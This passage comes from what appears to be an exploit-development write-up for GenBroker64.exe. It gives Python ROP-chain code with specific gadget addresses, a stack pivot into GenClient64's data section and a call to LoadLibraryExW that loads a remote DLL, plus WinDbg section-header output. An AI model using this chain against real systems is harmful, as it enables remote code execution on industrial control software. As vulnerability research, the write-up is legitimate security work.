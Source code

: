 We will put the string in the heap chunk so we just need to find a way to load its address in `@rcx`. `@rcx` points to the start of our heap chunk, so we need to add an offset to it. I did this with an `add ecx, dword [rbp-0x75]` gadget. I load `@rbp` with an address that points to the value I need to align `@ecx` with. Depending on where our heap chunk is allocated, the `add ecx` could trigger similar problems than the stack pivot but testing showed that the address always landed in the lower 4GB of the address space making it safe.
```python
# Set @rbp to an address that points to the value 0x30. This is used
# to adjust the @rcx pointer to the remote dll path from above.
#   0x1400022dc: pop rbp ; ret  ;  (717 found)
pop_rbp_gadget_addr = 0x1400022DC
#   > rp-win-x64.exe --file GenBroker64.exe --search-hexa=\x30\x00\x00\x00
#   0x1400a2223: 0\x00\x00\x00
_0x30_ptr_addr = 0x1400A2223
p += p64(pop_rbp_gadget_addr)
p += p64(_0x30_ptr_addr + 0x75)
left -= 8 * 2

# Adjust the @rcx pointer to point to the remote dll path using the
# 0x30 pointer loaded in @rbp from above.
#   0x14000e898: add ecx, dword [rbp-0x75] ; ret  ;  (1 found)
add_ecx_gadget_addr = 0x14000E898
p += p64(add_ecx_gadget_addr)
left -= 8
```

It is convenient to have the stack pivoted into a heap chunk under our control but it is dangerous to call `LoadLibraryExW` in that state. It will corrupt neighboring chunks, risk accessing unmapped memory, etc. It's bad. Very bad. We don't necessarily need to pivot back the stack where it was before, but we need to pivot it into a reasonably large region of memory in which content stays the same, or at least not often. After several tests, pivoting to `GenClient64`'s data section seemed to work well:

```text
0:011> !dh -a genclient64
SECTION HEADER #3
   .data name
    6C80 virtual size
  12B000 virtual address
C0000040 flags
         Read Write
```

I reused the `pop rbp` gadget, used a `leave; call qword [@r14+0x08]` gadget to both pivot the stack, and redirect execution to `LoadLibraryExW`. It isn't reflected well in this article but finding this gadget was also annoying. The challenge was to be able to pivot the stack **and** call `LoadLibraryExW` at the same time. I have no control over `GenClient64`'s data section which means I lose control of the execution flow if I only pivot there. On top of that, I was tight on available space.
